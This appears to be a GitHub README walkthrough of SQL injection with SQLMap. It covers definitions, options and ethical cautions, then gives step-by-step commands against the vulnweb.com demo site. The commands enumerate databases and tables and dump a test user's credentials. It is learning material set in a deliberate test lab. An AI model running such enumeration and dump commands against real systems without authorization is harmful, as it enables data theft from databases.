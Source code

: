 SQL Injection is a code injection technique where malicious SQL statements are inserted into input fields
allowing an attacker interact directly with a database. It is one of the most common vulnerabilities found in web applications and can lead to unauthorized access, data breaches,
and even complete system compromise.


![Screenshot_2024-12-10_14_50_39](https://github.com/user-attachments/assets/c73a63da-be5e-48f1-822f-efebd80e2f78)

we are testing in sql map
SQLMap is one of the most popular open-source penetration testing tools specifically designed for automating the process of detecting and exploiting SQL injection vulnerabilities.
which is an automated tool for detecting and exploiting SQL injection vulnerabilities. SQLMap is generally used to test whether a web application is vulnerable to SQL injection and, if so, to exploit those vulnerabilities to extract data from the database.

### How to Use SQLMap to Find Vulnerable Websites

SQLMap itself doesn't find websites on the internet; rather, it is used after you’ve identified a potentially vulnerable site or URL. It automates the process of testing that site for SQL injection vulnerabilities.
Below are the steps you can take to find vulnerable websites (with explicit permission!) and then use SQLMap to test and exploit those vulnerabilities.

### Steps to Use SQLMap for Finding Vulnerable Websites

1. Reconnaissance and Target Identification: 
   The first step is to identify a target that might be vulnerable to SQL injection. This often involves gathering information about the target website.

2. Test the Target for SQL Injection: 
   Once you’ve identified a URL or parameter, you can use SQLMap to test it for SQL injection vulnerabilities.

### 1.Identifying a Target URL or Parameter

Before using SQLMap, you need a URL with a parameter that could be potentially vulnerable to SQL injection. Common parameters to test for vulnerabilities include:

- `id=`
- `user=`
- `page=`
- `product=`
- `category=`



### Key SQLMap Options

- `-u` : Specify the URL to test.
- `--data` : POST request data.
- `--cookie` : Send a cookie with the request.
- `--batch` : Automatically answer all prompts.
- `--dbs` : Enumerate databases.
- `-D` : Specify a database to target.
- `-T` : Specify a table to target.
- `--dump` : Dump data from a table.
- `--technique` : Specify injection techniques (e.g., `T`, `B`, `U`, `E`).
- `--sql-shell` : Open an interactive SQL shell.

### 6. **Ethical Considerations and Legal Concerns**

- **Get Permission**: Never run SQLMap (or any penetration testing tool) against a website without **explicit permission**. This is critical to stay within legal boundaries.
- **Bug Bounty Programs**: If you want to test websites in a legal environment, participate in **bug bounty programs** like those on **HackerOne**, **Bugcrowd**, or **Open Bug Bounty**.
- **Responsible Disclosure**: If you find vulnerabilities during authorized testing, always follow responsible disclosure practices and report the issue to the website's owner or the relevant authority.

how to retrieve data step to one by one
i testing the vulnweb.php website

first i used tool is sql map

1.
sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs

![Screenshot_2024-12-10_15_22_49](https://github.com/user-attachments/assets/2f2f9ea3-2964-4b72-bc21-6fb2c9c5e2e6)
1.we find data retrive from a database











[*] acuart
[*] information_schema
2.
sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
![Screenshot_2024-12-10_15_22_49](https://github.com/user-attachments/assets/2f2f9ea3-2964-4b72-bc21-6fb2c9c5e2e6)
Database: acuart
[8 tables]







+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

3.
sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -columns
![Screenshot_2024-12-10_15_32_48](https://github.com/user-attachments/assets/91e8900b-5610-4612-a1b9-49e7e4fa39bf)



Database: acuart
Table: users
[8 columns]







+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

4.
sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -columns

![Screenshot_2024-12-10_16_13_32](https://github.com/user-attachments/assets/6c0f4464-2923-400d-b693-390f57d3a989)


Database: acuart
Table: users
[1 entry]






+-------+--------+------+----------+
| uname | name   | pass | address  |
+-------+--------+------+----------+
| test  | 1      | test | Me cawen |
+-------+--------+------+----------+
